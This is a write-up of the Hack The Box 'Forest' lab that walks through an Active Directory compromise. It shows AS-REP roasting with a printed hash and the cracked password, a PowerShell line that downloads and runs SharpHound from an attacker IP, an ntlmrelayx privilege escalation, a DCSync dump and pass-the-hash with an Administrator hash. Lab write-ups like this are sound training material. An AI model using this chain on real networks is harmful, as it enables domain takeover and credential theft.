

# Forest 
- [Forest](#forest)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 
[Nmap-file](Forest--Enum.txt)

Based on the name of the box I figured it had something to do with active directory. Running enum4linux against the host gave a list of users one of which was a service account

Using this service account we can use impacket to find any hashes for this user

    python /root/impacket/examples/GetNPUsers.py HTB/svc-alfresco -dc-ip 10.10.10.161 -no-pass
    Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:70e1707a1f9d2a76c0481edd3876dfc4$9a0d6b38b42019f07106ed3a07b38c7b7279371f45b7cd6f663b4e1988fdcea71b3bafb296be917aeee74c162841487b04caf5bb8e3324413bc8b1d5c33943b24cdfa4cf8f761cc71d8aaefc7a4f4d4d0cb4d6bf741093d0b86339ae66cac63af74d7ae0c938a972bf446487e0ca6f25618020585badd304766f03dcad72a33389a3a6871c9a3837419365f4f03c804280f024fdca7c8d329abffd475827ddb43b29a1cce152b8e54340d9231ec9b28f03192012e9aff804d17d324e28634971a41d34aab4199712af379938d091e31e31b22a043e293224c89aa8967493cee4

Cracking this hash using john we get *s3rvice*

## Exploits - Work
We now have an account we can use to access the server using Evil_Winrm. After connecting to the server it is time to enumerate the domain for what groups and permissions svc-alfresco has.

Time for bloodhound, bring on the hounds!

    iex (new-object net.webclient).DownloadString('http://10.10.15.xx/BloodHound/Ingestors/SharpHound.ps1')
    Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice

Bloodhound shows a known vulnerability path for exploitation - [Abusing Exchange](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

I added svc-alfresco to the "Exchange Windows Permissions" group.

    net group "Exchange Windows Permissions" svc-alfresco /ADD

Now all is set up for privesc....

## PrivEsc

With the svc-alfresco account in the right group I used the impacket tool 'nltmrelayx'.

    python ntlmrelay.py -t ldap://10.10.10.161 --escalate-user svc-alfresco

Browsing to the localhost in firefox the incoming credentials are relayed to the DC and the accounts privileges escalated. 

All that is left is dumping credentials using DCSYnc attack with secretsdump

    python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc

Boom! use the administrator hash to connect to the server as admin
    python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161

